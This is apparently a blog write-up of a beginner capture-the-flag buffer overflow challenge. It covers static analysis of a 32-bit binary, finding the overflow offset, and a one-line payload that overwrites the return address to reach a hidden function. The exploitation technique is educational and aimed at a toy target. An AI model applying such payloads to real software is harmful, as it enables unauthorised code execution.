 buf0 - A Buffer Overflow Challenge
==================================
date: 06/Jan/2014
summary: This is a buffer overflow challenge I found online. Although some people might find this to be a pretty easy exploit target, I thought of posting a writeup since it will still be someone's starting point into the jouney of exploitation.
tags: buffer overflow, writeups, reversing

The binary can be obtained from here: [buf0](/files/buf0.bin). Let's see
what `file` command has to tell us about this challenge file:

```shell
$ file buf0.bin
buf0.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x3a0cbf6e6af7d4a5d1294f2ce18e80ad3e778d48, not stripped
```

So, this is an x86 ELF binary with symbols included. Let's run `strings`
as well over this file:

```shell
$ strings buf0.bin
/lib/ld-linux.so.2
j,O)
__gmon_start__
libc.so.6
_IO_stdin_used
gets
puts
__libc_start_main
GLIBC_2.0
PTRh
UWVS
[^_]
W00T!
;*2$"
```

This is interesting. The binary is using `gets` syscall which is
commonly exploited against buffer overflow vulnerabilities. There is a
`W00T!` string as well which indicates that we need to exploit the
binary and get this string printed. Before we execute this file, let's
do some static analysis on it using IDA:

![image](/static/files/ida-start.png)

Apart from the standard libc defintions and `main`, I see an interesting
function called `returnToMe` at location 0x08048404. Let's follow this
function and see what is it doing:

![image](/static/files/ida-returntome.png)

Like I mentioned earlier, this is where the `W00T!` string is printed
and as per the assumption, we need to leverage the overflow in a way
that this function is called. Let's now run the binary and see how it
behaves:

```shell
$ ./buf0.bin
AAAAAAAAAAA
$
$ python -c 'print "A"*10' | ./buf0.bin
$ python -c 'print "A"*30' | ./buf0.bin
$ python -c 'print "A"*50' | ./buf0.bin
$ python -c 'print "A"*60' | ./buf0.bin
Segmentation fault (core dumped)
$
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
$ python -c 'print "A"*53' | ./buf0.bin
$ python -c 'print "A"*54' | ./buf0.bin
$ python -c 'print "A"*55' | ./buf0.bin
Segmentation fault (core dumped)
```

So, the binary accepts input through the `gets` syscall and is as such
vulnerable to a classic stack-based buffer overflow. We do some
trial-and-error to figure out the size of the buffer and it turns out to
be 54B after which any extra byte would corrupt the stack metadata
resulting in a `Segmentation fault (core dumped)` error. So, these 54B
comprise of the following stack variables:

```shell
50B (buf) + 4B (saved EBP)
```

The next 4B following saved EBP is the saved return address, EIP, and
this is what we need to overwrite to achieve successful exploitation.
For this challenge, the author wants us to overwrite EIP with the
address of the `returnToMe` function but there are others ways of
exploiting this as well:

1.  Injecting a 54B or less shellcode in the buffer and overwriting EIP
    with the start of the shellcode/NOP sled
2.  Injecting a bigger shellcode through an environment variable and
    overwriting EIP with it's address

But to keep things simple, let's just focus on how to complete the
challenge by satisfying author's criteria. To know how to exploit such
challenges using above steps please read my earlier post [Gera's Warming
Up on Stack \#1 - Solutions](/2012/8/27/geras-wuos-stack1-solutions/)
and it's subsequent parts.

From the IDA screenshot above it is already known that the `returnToMe`
function is at location 0x08048404. Let's exploit the binary with a
random payload of 54B concatenated with this new return address:

```shell
$ python -c 'print "A"*54 + "\x04\x84\x04\x08"' | ./buf0.bin
W00T!
```

Awesome! We get the required string printed, thus completing this
challenge. Stay tuned for a post on a similar challenge.

